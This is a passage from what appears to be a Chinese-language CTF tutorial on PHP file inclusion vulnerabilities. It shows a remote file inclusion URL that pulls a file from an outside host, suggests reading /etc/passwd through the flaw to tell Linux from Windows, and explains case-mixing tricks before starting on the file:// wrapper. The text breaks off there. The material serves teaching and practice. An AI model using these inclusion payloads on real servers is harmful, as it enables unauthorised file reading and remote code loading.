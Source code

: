 当被包含的文件在远程服务器时，如下图所示。

```
http://127.0.0.1/?filename=http://loki.la/ReaDME.md
```

![image-20240109083909634](../.gitbook/assets/image-20240109083909634.png)

## 如何判断服务器类型

> 虽然判断服务器类型的必要性不是很大，因为按照国内比赛的套路来看，题目环境基本为 Linux + Apache，不过还是有必要性说一下思路的。

### 读取文件

可以尝试读取 `/etc/passwd` 如果可行则代表操作系统为 Linux，反之为 Windows（注意判断不是百分百正确，不排除可控点存在过滤不允许任意文件包含）

### 大小写混写

可以在文件包含读取文件时，利用大小写敏感的特性来判断服务器类型，因为在 Linux 中严格区分大小写，而 Windows 不区分大小写。

如：在 Windows 下你要包含的文件为 `lfi.txt`，即使你写成 `Lfi.txt`、`lFi.tXT`等形式也可包含成功。

## 文件包含协议

### file://

* **条件**：
  * allow\_url\_fopen：不受影响
  * allow\_url\_include：不受影响
*   **作用**：

